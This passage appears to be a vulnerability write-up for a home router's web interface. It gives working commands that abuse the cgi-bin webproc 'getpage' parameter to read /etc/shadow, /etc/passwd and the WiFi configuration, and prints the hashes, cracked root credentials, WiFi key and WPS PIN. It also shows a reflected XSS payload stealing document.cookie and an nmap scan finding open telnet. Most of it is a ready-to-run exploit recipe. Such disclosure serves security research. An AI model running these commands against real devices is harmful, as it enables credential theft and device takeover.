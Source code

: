 ##### 4.2. Getting `shadow` file
```
$ http http://10.0.0.1/cgi-bin/webproc?getpage=/etc/shadow\&var\:page=\* -b
#root:$1$BOYmzSKq$ePjEPSpkQGeBcZjlEeLqI.:13796:0:99999:7:::
root:$1$BOYmzSKq$ePjEPSpkQGeBcZjlEeLqI.:13796:0:99999:7:::
#tw:$1$zxEm2v6Q$qEbPfojsrrE/YkzqRm7qV/:13796:0:99999:7:::
#tw:$1$zxEm2v6Q$qEbPfojsrrE/YkzqRm7qV/:13796:0:99999:7:::
```

##### 4.3. Getting `passwd` file
```
$ http http://10.0.0.1/cgi-bin/webproc?getpage=/etc/passwd\&var\:page=\* -b
#root:x:0:0:root:/root:/bin/bash
root:x:0:0:root:/root:/bin/sh
#tw:x:504:504::/home/tw:/bin/bash
#tw:x:504:504::/home/tw:/bin/msh
```

#### 5. Credentials

##### 5.1. Root creds: `root:root`
```
$ http http://www.firmware.re/keys-n-pass/ | grep 'BOYmzSKq'
<tr><td>$1$BOYmzSKq$ePjEPSpkQGeBcZjlEeLqI.</td><td class="cracked">r**t</td></tr>
```

##### 5.2. TW creds: `tw:tw` (backdoor account? not used anyways)
```
$ http http://www.firmware.re/keys-n-pass/ | grep 'zxEm2v6Q'
<tr><td>$1$zxEm2v6Q$qEbPfojsrrE/YkzqRm7qV/</td><td class="cracked">t*</td></tr>
```

##### 5.3. WiFi creds (meh...)
```
$ http "http://10.0.0.1/cgi-bin/webproc?getpage=/var/wscd.conf&var\:page=\*" -b \
| grep -E '^ssid|^pin_code|^network_key'
network_key = unusualbird918
ssid = NETGEAR01
pin_code = 96787786
```

#### 6. Reflected (lame) XSS

```
$ http "http://10.0.0.1/cgi-bin/webproc?getpage=<script>alert(document.cookie)</script>&var\:page=\*" -b
Content-type: text/html

Error. Pagefile open failed(File:<script>alert(document.cookie)</script>, PWD:/usr/www)
```

#### 7. Telnet backdoor access

##### 7.1. Nmap scan
```
$ sudo nmap -sS -sV 10.0.0.1 | grep open
23/tcp   open     telnet  Busybox telnetd
80/tcp   open     http    mini_httpd 1.19 19dec2003
1050/tcp open     http    mini_httpd 1.19 19dec2003
```
